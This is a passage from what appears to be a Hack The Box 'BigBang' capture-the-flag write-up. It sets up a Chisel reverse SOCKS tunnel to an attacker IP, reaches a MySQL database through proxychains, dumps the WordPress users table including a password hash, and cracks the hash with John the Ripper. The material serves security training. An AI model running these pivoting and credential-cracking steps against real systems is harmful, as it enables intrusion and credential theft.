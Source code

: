 Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

```bash
./chisel server -p 8000 -reverse
```

```bash
./chisel client 10.10.15.xxx:8000 R:socks
```

```bash
proxychains mysql -u wp_user
```

![Screenshot 2025-01-27 at 8.09.30 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_8.09.30_PM.png)

after that enumerate the Database 

```sql
show tables;
```

```sql
select * from wp_users;
```

```sql
	shawking      $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
```

![Screenshot 2025-01-27 at 8.16.27 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_8.16.27_PM.png)

save it to a file `shawking_hash`

```bash
shawking:$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
```

```bash
john --wordlist=rockyou.txt shawking_hash
```

![Screenshot 2025-01-27 at 11.36.11 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_11.36.11_PM.png)
